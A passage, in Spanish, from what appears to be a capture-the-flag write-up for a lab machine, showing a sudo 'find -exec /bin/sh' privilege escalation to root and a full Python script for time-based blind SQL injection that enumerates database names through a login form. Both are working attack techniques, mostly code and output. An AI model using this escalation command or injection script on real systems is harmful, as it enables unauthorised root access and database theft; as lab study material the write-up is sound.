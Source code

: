 ajustamos la consulta a nuestros intereses, lanzando el find como usuario root y con la ruta del binario:

```
sudo -u root /usr/bin/find . -exec /bin/sh \; -quit
```
```
sudo: unable to resolve host NexusLabCTF: Nombre o servicio desconocido
# id
uid=0(root) gid=0(root) grupos=0(root)
# 
```

ya somos root


## APORTACIÓN PARA EL TIME BASED ERROR

Me aburría, y creé un script para buscar primero las bases de datos:

```bash
import requests
import time

TARGET = "http://192.168.1.45/login.php"
DELAY = 0.5 # Ajustar tiempo
MAX_LEN = 20
MAX_DB = 5

headers = {
    'Content-Type': 'application/x-www-form-urlencoded'
}

print("[*] Enumerando nombres de bases de datos con inyección ciega de tiempo...\n")

for db_index in range(MAX_DB):
    db_name = ""
    for i in range(1, MAX_LEN + 1):
        found = False
        for ascii_code in range(32, 127):  # Caracteres imprimibles
            payload = (
                f"' OR IF(ASCII(SUBSTRING((SELECT schema_name FROM information_schema.schemata "
                f"LIMIT {db_index},1),{i},1))={ascii_code},SLEEP({DELAY}),0)-- -"
            )
            data = {
                'user': payload,
                'pass': 'x'
            }

            start = time.time()
            requests.post(TARGET, data=data, headers=headers)
            elapsed = time.time() - start

            if elapsed > DELAY:
                db_name += chr(ascii_code)
                print(f"\r[+] Base de datos #{db_index}: {db_name}", end='', flush=True)
                found = True
                break

        if not found:
            break
    if db_name:
        print()  # Salto de línea después del nombre completo
```
 Qué hace:
Recorre posibles nombres de bases de datos (schema_name) uno a uno.

